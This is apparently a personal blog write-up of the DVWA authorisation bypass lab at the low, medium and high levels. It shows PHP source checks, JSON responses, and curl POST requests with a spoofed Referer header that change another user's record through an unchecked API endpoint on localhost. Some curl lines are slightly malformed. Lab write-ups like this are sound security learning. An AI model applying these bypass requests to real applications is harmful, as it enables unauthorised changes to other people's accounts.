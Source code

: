 +++
date = '2025-10-16T14:14:20+07:00'
title = 'DVWA Authorisation Bypass Low/Medium/High Security'
draft = false
tags = ['DVWA']
description = 'Leveraging vulnerabilities to get access to user manager system.'

[cover]
  image = '/images/posts/dvwa-authorisation-bypass.jpg'
  alt = 'DVWA Authorisation Bypass'
  caption = 'DVWA Authorisation Bypass'
  relative = false
+++

## Description

-   **Vulnerability:** Authorisation Bypass
-   **Impact:** Leveraging vulnerabilities to get access to user manager system.

---

## LOW Security Level

The source code doesn't have any checks. You can use `gordonb / abc123` this account (this is not an admin account). Since the source code doesn't have any checks so we can just access to the URL: http://localhost/DVWA/vulnerabilities/authbypass/

![Guide image](/images/posts/dvwa-authorisation-bypass-1.png)

## MEDIUM Security Level

The source code now updated with a check:

```php
/*

Only the admin user is allowed to access this page.

Have a look at these two files for possible vulnerabilities:

* vulnerabilities/authbypass/get_user_data.php
* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

Let's take a look at those 2 files, visit `get_user_data.php` we got:

```json
[
    { "user_id": "1", "first_name": "admin", "surname": "admin" },
    { "user_id": "2", "first_name": "Gordon", "surname": "Brown" },
    { "user_id": "3", "first_name": "Hack", "surname": "Me" },
    { "user_id": "4", "first_name": "Pablo", "surname": "Picasso" },
    { "user_id": "5", "first_name": "Bobbbb", "surname": "Smith" }
]
```

And visit `change_user_details.php` got:

```json
{ "result": "fail", "error": "Only POST requests are accepted" }
```

You can see that we doesn't got any error Unauthourised so this is the vulnerability that API call doesn't check accounts.

Make a POST request `curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=<NON_ADMIN_PHPSESSID>"` to `change_user_details.php`, got:

```json
{ "result": "fail", "error": "Access denied" }
```

For somehow, when I make request normally on browser I don't get that message, however when I make a request through `curl` I got `Access denied`. So I do some investigate with the `admin` account and found that the request with admin account go with a header `Referer: http://localhost/DVWA/index.php` so I add it to my command:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php"
```

I don't get `Access denied` so I have passed the check, now pass a correct format to update user details:

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=medium" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

Got:

```json
{ "result": "ok" }
```

![Guide image](/images/posts/dvwa-authorisation-bypass-2.png)

## HIGH Security Level

The source code:

```php
/*

Only the admin user is allowed to access this page.

Have a look at this file for possible vulnerabilities:

* vulnerabilities/authbypass/change_user_details.php

*/

if (dvwaCurrentUser() != "admin") {
    print "Unauthorised";
    http_response_code(403);
    exit;
}
```

For somehow, I can still change user data in HIGH Security Level by commands used in MEDIUM:

-   Change user details

```bash
curl -X POST "http://localhost/DVWA/vulnerabilities/authbypass/change_user_details.php" -b "PHPSESSID=3ce91c8cfb7a6ad94efcd2cb696b8eb3;security=high" -H "Referer: http://localhost/DVWA/index.php" H "Content-Type: application/json" -d '{"id": 5, "first_name": "Bob", "surname": "Smith"}'
```

This can be used maybe because the developer forgot to check on POST request.
